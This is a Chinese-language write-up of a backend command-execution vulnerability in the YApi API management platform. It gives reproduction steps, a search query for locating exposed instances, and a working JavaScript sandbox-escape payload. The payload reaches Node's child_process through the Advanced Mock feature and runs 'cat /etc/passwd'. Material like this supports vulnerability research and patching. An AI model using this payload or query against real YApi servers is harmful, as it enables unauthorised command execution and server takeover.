


# YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## 网络测绘

```
app="YApi"
```

## 漏洞复现

登录页面


首先需要注册账户并登录





添加项目，参数任意


创建后点击 高级Mock 输入如下Payload


```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```





预览处点击项目链接


